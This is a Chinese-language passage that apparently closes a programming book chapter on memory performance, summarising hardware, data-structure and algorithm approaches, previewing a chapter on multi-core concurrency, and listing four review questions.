正如我们所看到的，硬件本身提供了几种提高内存性能的工具。除此之外，我们还必须选择具有内存效率的数据结构，如果仅凭这一点还不够，则可以选择具有内存效率的算法来提高性能。与往常一样，所有性能决策都必须得到衡量标准的指导和支持。

到目前为止，我们所做的一切和测量都使用了单个 CPU。实际上，自从引言的前几页以来，我们几乎没有提到您今天可以找到的几乎每台计算机都具有多个 CPU 内核，并且经常有多个物理处理器。原因很简单: 我们必须学会有效地使用单个 CPU，然后才能继续解决更复杂的多 CPU 问题。从下一章开始，我们将注意力转向并发和有效使用大型多核和多处理器系统的问题。

# 问题

1.  记忆差距是什么？
2.  哪些因素会影响观察到的记忆速度？
3.  我们如何在程序中找到访问内存是导致性能不佳的主要原因的地方？
4.  优化程序以获得更好的内存性能的主要方法是什么？